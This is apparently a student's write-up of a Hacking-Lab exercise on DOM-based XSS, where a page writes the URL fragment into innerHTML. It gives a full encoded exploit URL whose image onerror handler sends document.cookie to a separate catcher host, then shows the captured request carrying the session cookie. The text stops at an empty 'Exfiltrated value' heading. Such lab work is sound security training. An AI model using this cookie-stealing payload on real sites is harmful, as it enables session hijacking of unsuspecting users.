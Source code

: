 # 4 XSS – DOM-based

## Where the vulnerability is

The “Hacking-Lab for Fun and Profit” page reads the URL fragment (`location.hash`) and injects it into the DOM using an HTML-interpreting sink (e.g., `innerHTML` / jQuery `.html()`), enabling DOM-based XSS.

## Exploit URL used (encoded; paste into victim’s address bar)

```
https://3bfff57e-060d-4a7a-8bbc-07d36cc7db6a.i.vuln.land/start.html#%3Cimg%20src%3Dx%20onerror%3D%22location.href%3D%27https%3A%2F%2F7d19ce6f-b2a2-412d-9e44-f398523eb52f.i.vuln.land%2Fx%3Fc%3D%27%2BencodeURIComponent(document.cookie)%22%3E
```

## Captured request (from catcher `/debug`)

```
URL: http://7d19ce6f-b2a2-412d-9e44-f398523eb52f.i.vuln.land/x?c=jsessionid%3Dmy_name_is_bond_007
METHOD: GET
IP: 10.2.0.1
Time: 2025-10-14 22:19:52
Headers:
Host: 7d19ce6f-b2a2-412d-9e44-f398523eb52f.i.vuln.land
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.5
Priority: u=0, i
Referer: https://3bfff57e-060d-4a7a-8bbc-07d36cc7db6a.i.vuln.land/
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-site
Te: trailers
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 213.55.187.92
X-Forwarded-Host: 7d19ce6f-b2a2-412d-9e44-f398523eb52f.i.vuln.land
X-Forwarded-Port: 443
X-Forwarded-Proto: https
X-Forwarded-Server: traefik.vuln.land
X-Real-Ip: 213.55.187.92

QueryString:
b'c=jsessionid%3Dmy_name_is_bond_007'
```

## Exfiltrated value
